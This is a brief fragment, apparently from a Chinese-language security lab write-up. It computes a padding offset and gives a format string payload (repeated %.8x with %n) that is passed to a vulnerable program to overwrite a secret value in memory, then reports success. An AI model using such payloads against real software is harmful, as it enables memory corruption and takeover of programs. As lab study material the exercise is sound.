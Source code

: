 修改 secret[1]为6666 = 26214 ，即十六进制的1A0A。
26214 -（8*8+4） = 26146

```
./write

%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.26146x%n

./vul < mystring
```

![image-20220321004350017](FormatString/image-20220321004350017.png)

![image-20220321004318799](FormatString/image-20220321004318799.png)

修改成功！
